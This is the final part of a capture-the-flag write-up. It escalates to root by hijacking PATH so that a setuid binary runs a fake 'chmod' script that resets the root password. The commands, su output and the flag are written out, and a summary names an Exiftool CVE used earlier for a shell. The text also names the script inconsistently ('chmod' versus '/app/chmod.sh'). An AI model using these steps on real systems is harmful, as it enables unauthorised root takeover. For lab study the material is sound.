 Classic setuid pitfall: the binary likely calls `chmod` without an absolute path, meaning the executed binary depends on the current `PATH` variable.

To exploit this:

1. Write a custom `chmod` script to reset the root password:

   ```bash
   #!/bin/bash
   echo "root:1234" | chpasswd
   ```

2. Place the script as `chmod` in `/app` and make it executable.

3. Prepend `/app` to `PATH`:

   ```bash
   export PATH=/app:$PATH
   ```

4. Run the setuid binary:

   ```bash
   ./fix_permissions
   ```
   
The script calls `chmod` and finds the first match in `PATH` (`/app/chmod.sh`), i.e. our script rather than the real binary in `/usr/bin/chmod`.

No errors reported, now attempt to become root:

```
flaskuser@app:/app$ su
Password: 1234
```

Success:

```
root@app:/app# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## Flag

Flag can now be read:

```
root@app:/app# cat flag.txt
SHLK{O!d_Sch0Ol_Guy_Ho1ds_Olds_V3rsions}
```

---

## TL;DR

* MOTD validator expects high player count and specific keywords; bypassed by emulating a custom Minecraft server.
* Site fetches favicon and processes it with vulnerable Exiftool (v12.23).
* CVE-2021-22204 exploited to gain initial shell via malicious image payload.
* Local privilege escalation via setuid binary and `PATH` hijack—custom `chmod` script resets root password.
* Root shell obtained and flag recovered.

---
